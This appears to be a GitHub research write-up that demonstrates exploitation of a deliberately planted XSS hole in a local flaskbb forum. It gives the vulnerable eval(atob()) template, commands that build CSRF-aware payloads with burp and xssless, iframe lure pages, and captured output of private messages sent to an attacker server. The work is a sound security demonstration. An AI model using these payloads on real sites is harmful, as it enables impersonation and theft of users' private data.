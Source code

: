 Attacks
=======
Given a vulnerable application, we will try to develop some realistic attack scenarios. The focus is really not on triggering the XSS, but rather demonstrating ways to fully exploit it.
First we will setup a vulnerable application, then propose 3 different attacks :

    - execute actions on behalf of user
    - steal private information
    - Man In the Browser attack : interactive session hijacking, keylogger, browser exploits...
        
I. Setup the vulnerable application : a forum.
----------------------------------------------
In an attempt to be as realistic as possible, we decided to start with a real full-fledged application. We choose flaskbb[0], a forum developped in python using flask.

First step is to add our extra XSS "feature". We kept it simple by adding a new route to the project, where you can provide base64-encoded javascript to be executed. For example, executing "alert(1)" will look like this :

    localhost:8080/xss/YWxlcnQoMSkK

The base64 is a handy way to avoid conflicts between our payloads and flask's route matching rules, and more important allows us to bypass flask's parameters sanitizing before template generation. It will also work around any protection from the browser. Implementation steps are provided here[1]

Bonus : flaskbb is kind enough to come in the dev version with a test function to populate it with dummy users, topics and posts !

II. Post a message on behalf of a user.
---------------------------------------
First, let's introduce two tools that we will use : 

    burp[2] : an http proxy, often used in web penetration tests because it is awesome. We will just scratch the surface here, using it to log our http traffic.
    xssless[3] : a python script to generate XSS payloads from burp's logs. Best part is that it takes care of crsf tokens (nonces) !

The procedure is as follow : 

    1) log in with a user we control.
    2) start burp's interception
    3) post a new message.
    4) export burp's logs
    5) list the csrf tokens
    6) run xssless
    7) modify the payload with our malicious message
    8) craft our exploit
    9) expose targeted users to our exploit

Steps 1-4 I won't describe.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    python2 ~/secu/xssless/xssless.py -s -p params ../burp-logs/post-topic.burp > post-topic.js

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet and bring authenticated users of our forum to visit it.

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  [[Images ?]]

III. Read a user's private conversations.
-----------------------------------------
Of course, like any exploit, this one is dirty as heck[4]. But hey, it kind of works.

    base64 -w0 read-private.js > read-private.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html
    cd malicious-website && python3 -m http.server 1337

When someone visits localhost:1337/read-private.html :

    "GET /%5B%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test1%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Private%20conversation%20is%20private%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20Or%20is%20it%20%3F%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Another%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20%E2%80%9Cprivate%E2%80%9D%20conversation%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20last%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20of%20thoses%20%22%0A%20%20%7D%0A%5D HTTP/1.1" 404 -

    >> rcv="%5B%0...7D%0A%5D"
    >> python2 -c "from urllib import unquote; print unquote('$rcv');"
        [
          {
            "author": "test1",
            "title": " Private conversation is private ",
            "content": " Or is it ? "
          },
          {
            "author": "test3",
            "title": " Another ",
            "content": " “private” conversation "
          },
          {
            "author": "test3",
            "title": " last ",
            "content": " of thoses "
          }
        ]


IV. Steal a user's password, and beyond ! Man In the Browser.
-------------------------------------------------------------

V. Going further.
-----------------
    xssless : worms !

Refs
----
    [0] https://github.com/sh4nks/flaskbb
    [1] The following modifications have been made to flaskbb[0] :
            forum/views.py (l35-66)
                @forum.route("/xss/<payload>")
                [...]
                return( [...],
                    payload=payload)

            templates/forum/index.html (l4)
                <script>eval(atob("{{ payload }}"))</script>
        Also, because of a bug I removed thoses lines :
            templates/forum/topic.html
                {% if topic.first_post_id == post.id %}
                    {% if current_user|delete_topic(topic.first_post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_topic', topic_id=topic.id, slug=topic.slug) }}">Delete</a> |
                    {% endif %}
                {% else %}
                    {% if current_user|delete_post(post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_post', post_id=post.id) }}">Delete</a> |
                    {% endif %}
                {% endif %}
        and didn't investigate any further...
    [2] http://portswigger.net/burp/
    [3] https://github.com/mandatoryprogrammer/xssless
    [4] https://github.com/centime/xss-paper/blob/master/payloads/read-private.js